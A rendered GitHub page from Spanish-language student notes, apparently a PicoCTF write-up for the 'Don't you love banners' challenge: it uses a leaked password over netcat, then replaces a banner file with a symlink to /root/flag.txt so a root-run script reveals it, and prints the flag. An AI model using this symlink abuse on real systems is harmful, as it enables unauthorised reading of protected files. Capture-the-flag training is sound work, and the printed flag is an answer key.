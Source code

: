 #### Description

[](https://github.com/JazSparrow/Hacking-notes-2025/blob/main/Hacking-notes-2025/PicoCTF/Primer%20Examen%20Parcial/Parte%201%20-%20General%20Skills/07_dont-you-love-banners.md#description)

Can you abuse the banner? The server has been leaking some crucial information on `tethys.picoctf.net 51160`. Use the leaked information to get to the server. To connect to the running application use `nc tethys.picoctf.net 50616`. From the above information abuse the machine and find the flag in the /root directory.

## Hints 1 2

[](https://github.com/JazSparrow/Hacking-notes-2025/blob/main/Hacking-notes-2025/PicoCTF/Primer%20Examen%20Parcial/Parte%201%20-%20General%20Skills/07_dont-you-love-banners.md#hints-1-2)

- Do you know about symlinks?
- Maybe some small password cracking or guessing

## Solución

[](https://github.com/JazSparrow/Hacking-notes-2025/blob/main/Hacking-notes-2025/PicoCTF/Primer%20Examen%20Parcial/Parte%201%20-%20General%20Skills/07_dont-you-love-banners.md#soluci%C3%B3n)

Primero iniciamos nuestra instancia, una vez echo esto, nos dirigimos a nuestra terminal de ubuntu o el webshell de PicoCTF, e ingresamos el **primer `tethyns`** el cual es el: `tethys.picoctf.net 51160` y nos da nuestra contraseña que utilizaremos para la segunda `tethyns` y después damos `crt c`, enseguida ponemos el **segundo `nc tethyns`** en este caso es el: `nc tethys.picoctf.net 50616` y ponemos la contraseña que anteriormente nos dieron el cual es: `My_Passw@rd_@1234` y con esto estaremos dentro.

Una vez ahí ingresamos `ls -al` para ver los archivos que contiene.

Después ingresamos los siguientes comandos:

- cat text
- ls -al /root
- cat /root
- cat /root/script.py
- rm /home/player/banner
- ln -s /root/flag.txt /home/player/banner ln -s /root/flag.txt /home/player/banner

Cuando se terminen de ingresar los comandos en orden, damos un `crt C`.

Y por ultimo ingresamos este ultimo comando, que es nuestro :

- `nc tethys.picoctf.net 50616` El cual nos mostrara nuestra respectiva flag.

````
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}
`````


